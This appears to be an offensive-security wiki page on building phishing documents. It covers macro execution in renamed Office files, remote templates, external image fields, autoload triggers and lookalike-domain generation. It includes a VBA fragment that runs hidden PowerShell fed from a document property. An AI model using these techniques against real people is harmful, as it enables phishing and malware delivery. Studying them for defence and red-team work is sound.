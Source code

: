 # Phising Documents

Microsoft Word performs file data validation prior to opening a file. Data validation is performed in the form of data structure identification, against the OfficeOpenXML standard. If any error occurs during the data structure identification, the file being analysed will not be opened.

Usually Word files containing macros uses the `.docm` extension. However, it's possible to rename the file changing the file extension and still keep their macro executing capabilities.  
For example, an RTF file does not support macros, by design, but a DOCM file renamed to RTF will be handled by Microsoft Word and will be capable of macro execution.  
The same internals and mechanisms apply to all software of the Microsoft Office Suite \(Excel, PowerPoint etc.\).

You can use the following command to check with extensions are going to be executed by some Office programs:

```bash
assoc | findstr /i "word excel powerp"
```

DOCX files referencing a remote template \(File –Options –Add-ins –Manage: Templates –Go\) that includes macros can “execute” macros as well.

### Word with external image

Go to: _Insert --&gt; Quick Parts --&gt; Field_  
_**Categories**: Links and References, **Filed names**: includePicture, and **Filename or URL**: http://&lt;ip&gt;/whatever_

![](.gitbook/assets/image%20%28347%29.png)

### Macros Code

```bash
Dim author As String
author = oWB.BuiltinDocumentProperties("Author")
With objWshell1.Exec("powershell.exe -nop -Windowsstyle hidden -Command-")
 .StdIn.WriteLine author
 .StdIn.WriteBlackLines 1
```

## Autoload functions

The more common they are, the more probable the AV will detect it.

* AutoOpen\(\)
* Document\_Open\(\)

## Generate similar domain names

### Domain Name Variation Techniques

* **Keyword**: The domain name **contains** an important **keyword** of the original domain \(e.g., zelster.com-management.com\).
* **hypened subdomain**: Change the **dot for a hyphen** of a subdomain \(e.g., www-zelster.com\).
* **New TLD**: Same domain using a **new TLD** \(e.g., zelster.org\)
* **Homoglyph**: It **replaces** a letter in the domain name with **letters that look similar** \(e.g., zelfser.com\).
* **Transposition:** It **swaps two letters** within the domain name \(e.g., zelster.com\).
* **Singularization/Pluralization**: Adds or removes “s” at the end of the domain name \(e.g., zeltsers.com\).
* **Omission**: It **removes one** of the letters from the domain name \(e.g., zelser.com\).
* **Repetition:** It **repeats one** of the letters in the domain name \(e.g., zeltsser.com\).
* **Replacement**: Like homoglyph but less stealthy. It replaces one of the letters in the domain name, perhaps with a letter in proximity of the original letter on the keyboard \(e.g, zektser.com\).
* **Subdomained**: Introduce a **dot** inside the domain name \(e.g., ze.lster.com\).
* **Insertion**: It **inserts a letter** into the domain name \(e.g., zerltser.com\).
* **Bitsquatting:** It anticipates a small portion of systems encountering hardware errors, resulting in the mutation of the resolved domain name by 1 bit. \(e.g., xeltser.com\).
* **Missing dot**: Append the TLD to the domain name. \(e.g., zelstercom.com\)

### Automatic Tools

* \*\*\*\*[**dnstwist**](https://github.com/elceef/dnstwist)\*\*\*\*
* [**urlcrazy**](https://github.com/urbanadventurer/urlcrazy)\*\*\*\*

### **Websites**

* [https://dnstwist.it/](https://dnstwist.it/)

## References

* [https://zeltser.com/domain-name-variations-in-phishing/](https://zeltser.com/domain-name-variations-in-phishing/)
* [https://0xpatrik.com/phishing-domains/](https://0xpatrik.com/phishing-domains/)

